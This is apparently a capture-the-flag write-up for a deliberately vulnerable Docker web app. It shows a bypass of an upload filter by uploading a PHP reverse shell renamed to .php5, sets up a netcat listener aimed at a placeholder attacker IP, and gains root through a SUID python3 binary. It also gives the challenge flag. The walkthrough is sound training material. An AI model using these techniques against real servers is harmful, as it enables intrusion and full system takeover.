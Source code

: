 ## WRITEUP - STUDENT DROPBOX

Category: *web*
Level: *medium*

**Description** : Your professor asked you to submit the report for your school project. To make things easier, he created a simple platform where you can upload your work.

However, since he likes to test your curiosity, he intentionally left a vulnerability in the system. As an extra challenge, he announced **a bonus of 10 points on the final exam** to anyone who can retrieve the **flag** hidden in the root directory as proof.

--------------------------------------------------
## Step 1 : Launch the Docker Image

-   The image is available on my Docker Hub:

<pre>Link : https://hub.docker.com/repositories/razafindraibe</pre>

-   Pull the image:

<pre>docker pull razafindraibe/student_dropbox:latest</pre>

![alt text](imageswriteup/1.png)

-   Run a container from the image:

<pre>docker run --rm -d -p 80:80 -p 22:22 razafindraibe/student_dropbox:latest</pre>

![alt text](imageswriteup/2.png)

---------------------------------------------------

## Step 2 : Enumeration

-   First, check the Docker container’s IP address:

![alt text](imageswriteup/3.png)

![alt text](imageswriteup/4.png)

-   Let’s start with an **Nmap scan**:

![alt text](imageswriteup/5.png)

We can see that two ports are open: **80 (HTTP) and 22 (SSH)** — pretty standard.

- Next, let’s use <code>Gobuster</code> to look for hidden directories on the website:

![alt text](imageswriteup/6.png)

Interesting… we found two directories: <code>/student</code> and <code>/projects</code>.

-   Visiting the main page shows the default Apache landing page:

![alt text](imageswriteup/7.png)

C'est la page par defaut d'apache.

-   Navigating to <code>/student</code> reveals the upload page where we are supposed to submit our project reports :

![alt text](imageswriteup/8.png)

However, only <code>.zip</code> or <code>.gz</code> are allowed.

-  If we go to <code>/projects</code> , we can see the files that have been uploaded .

![alt text](imageswriteup/9.png)

-----------------------------------------------

## Step 3 : Exploitation

-   First, I tried uploading a simple <code>.txt</code> file to see how the application reacts :

![alt text](imageswriteup/10.png)

![alt text](imageswriteup/11.png)

Good job, teacher ! The server rejects it. I also tested with <code>.py </code>,<code>.php </code> etc ... all resulted in errors.

-   Uploading a <code>zip</code> , and <code>gz</code>, et y a pas erreur mais , file does not trigger an error, but nothing appears under <code>/projects</code>. Suspicious…

-   Time to try something more interesting : a <code>PHP reverse shell</code> et Before that, let’s prepare our listener : <code>nc -lvnp 4444</code>

- I used the classic : <code> https://github.com/pentestmonkey/php-reverse-shell </code>

![alt text](imageswriteup/12.png)

**Steps** :

1- Copy the content of <code>php-reverse-shell.php</code>

2- Create a new file, but change the extension to <code>php5</code> or <code>php4</code>

![alt text](imageswriteup/13a.png)

3- Paste the reverse shell code and edit the following variables:

<pre>
    -   $IP = [YOUR_ATTACKER_IP]
    -   $PORT = what you want (I choose 4444)
</pre>

![alt text](imageswriteup/13.png)

4- Upload the modified <code>reverse shell.</code>

![alt text](imageswriteup/14.png)

Bingo 🎉 — the file extension is accepted!

5- Check the <code>/projects</code> directory:

![alt text](imageswriteup/15.png)

6- Start the <code>netcat</code> listener :

![alt text](imageswriteup/16.png)

7- Click on the uploaded <code>shell.php5</code>

8- Go back to  <code>netcat</code> ....

![alt text](imageswriteup/17.png)

🎯 Success! We now have a working <code>reverse shell</code> on the target.

-----------------------------------------------

## Step 4 :  Privilege Escalation

-   First, I checked for available sudo permissions with: <code>sudo -l</code> . But nothing useful showed up:

![alt text](imageswriteup/18.png)

-    Next, I searched for <code>SUID binaries</code> that might allow privilege escalation: 

<pre>find / -perm -4000 -type f 2>/dev/null</pre>

![alt text](imageswriteup/19.png)

Interesting… we found <code>/usr/bin/python3.10</code>, owned by root.
If we can run this, it should allow us to escalate privileges.

-   Time to check **GTFOBins** for a Python SUID exploit:

![alt text](imageswriteup/20.png)

![alt text](imageswriteup/21.png)

-   Running the suggested command directly threw an error:

![alt text](imageswriteup/22.png)

-    That’s because the binary is <code>python3</code> not <code>python</code>.

Adjusting the command accordingly…

![alt text](imageswriteup/23.png)

💥 Boom! Root access obtained.

-   Now, let’s search for the <code>flag</code> to earn the professor’s <code>+10 bonus points:</code>

![alt text](imageswriteup/24.png)

![alt text](imageswriteup/25.png)

<pre>flag{4rbitr4ry_f1le_uplo4d_to_rce}</pre>
